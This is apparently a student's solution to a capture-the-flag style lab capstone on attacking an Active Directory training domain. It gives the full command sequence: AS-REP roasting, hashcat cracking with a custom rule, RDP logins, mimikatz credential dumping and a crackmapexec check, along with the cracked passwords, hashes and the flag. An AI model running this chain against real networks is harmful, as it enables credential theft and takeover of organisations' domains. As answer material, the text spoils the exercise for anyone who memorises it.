 Topics: Capstone Exercise
Questions 2
Capstone Exercise: Once VM Group 2 is started, the domain corp.com has been modified. Use the techniques from this Module to obtain access to the user account maria and log in to the domain controller. To perform the initial enumeration steps you can use pete with the password Nexus123!. You'll find the flag on the Desktop of the domain administrator on DC1. If you obtain a hash to crack, create and utilize a rule file which adds nothing, a "1", or a "!" to the passwords of rockyou.txt.

HINT
Perform credential roasting on specific users within the DC.
Crack the hash using a custom rule with hashcat.
Spray the new credential across all machines using crackmapexec.
Use mimikatz to perform post-exploitation and try logging into DC1.

# Answer

sudo impacket-GetNPUsers -dc-ip 192.168.221.75  -request -outputfile hashes.asreproast corp.com/pete
Password: Nexus123!
...
$krb5asrep$23$mike@CORP.COM:f577ba022cedf0883b926e639e5cbf55$f95508dbbe5b4f884d9eb6d5191693865a016ef9cf1e297530b2e7337359dce35598216698658d97feb38b19898edde66048e3d3748b881728e9bd1ec01c5d3f2b3a6b1d70287adfd4c10ee29c4a677d3bf6a6c5080019444a1bff81f5a153a14575039d607381650929bd7aedf207e23821e370f564f3e24072644c868c2f5bfa3ce6b40a4acb1c2c2a5f82a15209de27d2bec06737ae0b3fb95d83f6a865589ef8450f42389f2dc046bdbc6f76ea8738a00047bc73c02dbc32302be5fe7b30e0ea07e928d9412fc537ec2eb183dcd76dd288a9ce111466162d664a506ddd014aba7ef3

$krb5asrep$23$dave@CORP.COM:db1232b08f25ce1968cc0af81f004fbb$b4a23f51f0ecacee78d3b39656aa61650fdb842f6e919e25887b37e1b4b792e79c71cb83e247892fc8f7267fceee00faecb26f25fe7667c119a6ab4fbdfe3af38e460df8f4d1d7fb5531d3a74f764bc35a3e8dd06befa3908cc09cdb0e0414ebfff2ea96328352cda0def40d7f2d706c66e2be19f89aa430cba97960245440943411121fda7f1d55a3977d6bbe836db908321fd97cf0ebf6ebcf594afed73fd0b00ea4d7a45c929d9de52c74c2ea295ee8ee750b879409cc9e1e91bd0590beae88d005bd6ae0a63986bf7989d6798d1c9eb3492d9b7062ea28355eb73a83af0e0e16fda5
...

# Paste the above hash into it
code hashes 
# Add nothing, a "1" or a "!" to the password rockyou.txt
code append.rule
```
:
$1
$!
```

hashcat --help | grep -i "Kerberos" 
...
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
...


hashcat -D 1 -m 18200 hashes /usr/share/wordlists/rockyou.txt -r append.rule --force 
# mike@CORP.COM
...
Darkness1099!                                                
Session..........: hashcat
Status...........: Cracked
...
# dave@CORP.COM
...
Session..........: hashcat                                
Status...........: Exhausted
...

# Next access to RDP and open Powershell in administrator mode
xfreerdp /cert-ignore /u:mike /d:corp.com /p:Darkness1099! /v:192.168.221.75

PS C:\Tools> powershell -ep bypass
PS C:\Tools> .\mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
...
        * Domain   : CORP
        * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
        * Username : dave
        * Password : Flowers1

        * Username : maria
        * Domain   : CORP
        * NTLM     : 2a944a58d4ffa77137b2c587e6ed7626
...

code hashes
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r append.rule --force
...
2a944a58d4ffa77137b2c587e6ed7626:passwordt_1415 
...

sudo crackmapexec smb 192.168.221.75 -u maria -p 'passwordt_1415' -d corp.com
...
SMB         192.168.221.75  445    CLIENT75         [+] corp.com\maria:passwordt_1415 (Pwn3d!)
...

xfreerdp /cert-ignore /u:maria /d:corp.com /p:passwordt_1415 /v:192.168.221.70

# Open powershell with administrator
PS C:\Users\Administrator\Desktop> type .\flag.txt
OS{be70e47aad385235c752a4aae41dacb0}